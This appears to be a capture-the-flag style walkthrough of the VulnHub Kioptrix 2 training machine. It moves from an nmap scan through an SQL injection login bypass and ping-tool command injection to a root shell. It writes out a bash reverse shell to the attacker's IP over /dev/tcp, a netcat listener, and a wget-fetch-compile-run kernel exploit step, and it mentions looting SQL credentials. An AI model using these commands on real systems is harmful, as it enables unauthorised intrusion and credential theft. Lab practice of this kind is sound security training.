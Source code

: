 ```yaml
---
title:  "Kioptrix 2 Walkthrough"
header: "Kioptrix 2 Walkthrough"
categories: 
  - walkthroughs
tags:
  - vulnhub
---
```


This is the updated image (as the previous option fixed a few bugs) but from my understanding it roughly works the same for both. This is certainly a beginner machine and shouldn't require too much investigation or time to complete. The key is to have an understanding of how SQL injections work and basic privilege escalation enumeration practices.  

# Host Enumeration  
***

I started by performing an nmap scan to see what open ports and services were present  

`nmap -T4 -A -v <IP>`  

# SQL Injection  
***

There were several ports open (22,80,443,3306,111,631). I started off by navigating to website to see what was present. Immediately, I was presented with a login screen. Went through a few basic SQL injection authentication bypass one-liners and `'or 1 = 1 - -` worked.  
 
![Login Screen](/assets/images/kio2login.jpg)  
 
# Breach  
***
 
Once logged in, you are presented with an app that pings a machine on the network. I tested this by placing my attacking machine IP address in and viewed the results.  

![Ping Tool](/assets/images/kio2ping.jpg)  
 
Next I tried checking to see if I could run additional commands by appending `;whoami` which resulted in the command being executed and returning the value “apache”  

![Ping tool with username](/assets/images/kio2ping2.jpg)  

Since I had command execution on the machine, I chose a bash reverse shell from [here](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) and modified it for my attacking IP address. The command looked like this `<IP>;bash -i >& /dev/tcp/<IP>/8080 0>&1`.  

![Ping tool with rev shell](/assets/images/kio2pingshell.jpg)  
 
Before executing in the browser, I set up a listener on my attacking box with `nc -nvlp 8080`. Once that was set up, I executed the command and was presented with a shell as the apache user.  

![Reverse Shell](/assets/images/kio2revshell.jpg)  
 
> I used python to obtain a TTY shell but it's not required. You can do this with `python -c 'import pty; pty.spawn("/bin/sh")'`  

# Privilege Escalation  
***

Checked the kernel version by `cat /proc/version` and noticed it was Linux version 2.6.9-55.EL  

![Kernel Version](/assets/images/kio2kernel.jpg)  
 
There’s a well-known exploit for privilege escalation based on this version located [here]( https://www.exploit-db.com/exploits/9542/). I downloaded the exploit to my attacking machine, started apache by executing `service apache2 start`, and placed the exploit in the /var/www/html/ folder. On the target machine, I navigated to the tmp directory by `cd /tmp` and used wget to download the file `wget http://<IP>/exploit.c`. I used gcc to compile the code with `gcc exploit.c` and ran the exploit making me root by `a.out`.  

![Root](/assets/images/kio2root.jpg)   

There are some things you can loot off this machine such as the SQL creds (/var/www/html/index.php) and a few others. It’s interesting to look at the code and figure out why the SQL injection was possible (unsanitized input).  
